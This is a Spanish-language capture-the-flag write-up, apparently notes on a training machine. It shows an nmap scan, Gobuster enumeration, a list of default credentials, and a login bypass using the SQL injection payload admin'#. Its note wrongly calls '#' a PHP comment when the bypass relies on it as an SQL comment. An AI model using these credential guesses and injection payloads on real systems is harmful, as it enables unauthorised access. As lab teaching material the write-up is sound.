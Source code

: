 1. **Escaneamos los puertos más comunes usando scripts predeterminados y determinamos los servicios y versiones que se están ejecutando en los puertos abiertos.**
```bash
nmap -sV -sC [target ip]
```
--> port 80/tcp - open - http
--> http-server-header: Apache/2.4.38 (Debian) / http-title: Login


2. **Buscamos la IP de la máquina objetivo en nuestro navegador web**
--> Podemos ver una página básica de inicio de sesión, pero no tenemos ni el usuario ni la contraseña aun.


3. **Vemos que hay encendido un servidor web (Apache) y vamos a usar [[Gobuster]] para listar directorios (`dir`) dentro de la web escribiendo la dirección de la máquina objetivo y usando una wordlist**
```shell
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
--> No encontramos nada importante.


4. **Probamos con las contraseñas típicas**
```shell
admin - admin
root - root
user - user
guest - guest
administrator - password
```
--> Ninguna de estas es la correcta


5. **Probamos por si hay una posible SQL Injection vulnerability**
```php
# En PHP, "#" se usa para hacer un comentario. Podemos concluir que si usamos este símbolo en el inicio de sesión, el sitio web lo leerá como si fuera un comentario y no leerá la contraseña. El ' se usa como caracter de escape para no partir la consulta. Podemos probar cosas como ', ", '), "))...

--> Username: admin'#
	Password: [random]
```
--> **MACHINE PWNED!** Ahora, estamos dentro de la web y capturamos la flag.
